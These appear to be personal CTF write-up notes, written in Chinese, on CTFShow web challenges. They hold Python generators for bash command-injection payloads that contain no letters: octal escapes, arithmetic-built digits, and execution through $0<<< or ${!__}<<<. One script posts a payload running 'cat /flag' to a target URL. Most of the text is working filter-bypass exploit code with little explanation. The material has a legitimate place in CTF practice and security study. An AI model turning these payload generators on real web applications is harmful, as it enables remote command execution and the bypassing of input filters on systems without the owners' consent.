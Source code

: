 tags:: CTFWEB/Shell/利用进制转换构造无字母payload, CTFWEB/Shell/WAF绕过

- # 1&2
	- ```python
	  
	  def zero_str():
	      return "$0"
	  
	  def num(n: int):
	      return str(n)
	  
	  def string(s: str):
	      return "$'" + "".join(
	          ["\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  p = string("/getflag")
	  print(p)
	  ```
	- 把p交上去就行，注意转义
	- 参考[[CTFWEB/Shell/bash构造无字母payload]]
- # 5
	- 数字：参考 [[CTFWEB/WP/CTFShow/web57]]
	- bash str: 先在前方设置变量`__=$(())`，然后使用`${!__}`
	- 字符串：
		- ```python
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  ```
	- payload生成：
		- ```python
		  # payload = shell_payload.number(1)
		  
		  def number(n):
		      assert isinstance(n, int)
		      if n == 0:
		          return "$(())"
		      elif n == -1:
		          return "$((~$(())))"
		      elif n < 0:
		          return "$(({}))".format(
		              "".join(
		                  "$(({}))".format(number(-1))
		                  for _ in range(-n)
		              )
		          ) 
		      elif n > 0:
		          return "$((~{}))".format(
		              number(-n-1)
		          )
		  
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  
		  
		  def string(s: str):
		      """生成一个payload, 其经过两次解析后得到原有的字符串
		      经过一次解析：
		          "$\\'" -> "$'"
		          "\\\\" -> "\\"
		          数字payload -> 实际的数字
		          整个payload变成`$'\000\000'`的形式
		  
		      Args:
		          s (str): payload的值
		  
		      Returns:
		          str: payload
		      """
		      return string_by_bin(s)
		  
		  
		  def generate_payload(cmd):
		      return "{bash_str}<<<{bash_str}\\<\\<\\<{cmd}".format(bash_str=bash_str(), cmd=string(cmd))
		  
		  bash_str = lambda : "${!__}"
		  
		  payload = "__=$(())&&" + generate_payload("cat /flag")
		  print(payload)
		  r = base_post(url, data = {
		      "ctf_show": payload
		  })
		  print(r.text)
		  ```
